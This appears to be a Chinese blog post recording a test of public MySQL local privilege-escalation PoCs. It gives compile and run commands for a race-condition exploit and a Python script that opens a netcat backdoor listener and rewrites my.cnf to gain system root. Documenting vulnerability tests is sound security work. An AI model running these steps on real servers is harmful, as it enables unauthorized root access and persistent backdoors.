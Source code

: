 ```yaml
---
layout: post
title: mysql本地提权及命令执行调试记录
description: "mysql本地提权及命令执行漏洞调试记录"
category: scanner
tags: [scanner, mysql]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


### 概要

对legalhack放出的mysql本地提权及代码执行POC进行测试，记录了相关的步骤、条件及结果。

### 由数据库普通用户提权至数据库root用户权限

首先，创建一个数据库普通用户用于验证该漏洞，下图中创建了一个名为sanwenkit的数据库用户，只有单个数据库的操作权限，无权对mysql进行相关配置。同时，图中可以看到，当前数据库版本为5.5.44

![mysql普通用户权限](http://7xwdx7.com1.z0.glb.clouddn.com/mysql-user-role.jpeg)

编译mysql漏洞利用POC：

`gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient
`

运行POC：

`./mysql-privesc-race dbuser dbpass dbhost dbname
`

等待一段时间后，应该就能拿到mysql root权限的shell了。

![mysql root权限shell](http://7xwdx7.com1.z0.glb.clouddn.com/mysql-cve-2016-6663.jpeg)

看一下当前用户权限，可以看到已经是系统用户mysql的权限了。

![有权限mysql目录](http://7xwdx7.com1.z0.glb.clouddn.com/mysql-whoami.png)

![mysql root权限shell](http://7xwdx7.com1.z0.glb.clouddn.com/mysql-get-root-role.png)


### 由系统用户mysql提升至root权限

下一步，是从系统用户mysql提升至root权限，这里测试发现需要先开启mysql的FILE（文件读写）权限。

相关命令如下：

`GRANT FILE on *.* TO sanwenkit@‘%’;
`

随后运行用来提权的python脚本，命令格式如下：

`python mysql-poc.py -dbuser aaa -dbpass 'bbb' -dbhost ccc -dbname ddd -mycnf /path/to/my.cnf
`

运行python脚本，如果一切正常的话，会利用netcat打开一个后门监听端口。同时，my.cnf配置文件会被改写，用来在mysql服务重启时进行提权，获取系统root权限。

![监听本地端口](http://7xwdx7.com1.z0.glb.clouddn.com/mysql-listen-netcat.png)

![改写配置文件](http://7xwdx7.com1.z0.glb.clouddn.com/mysql-config-file-rewrite.png)
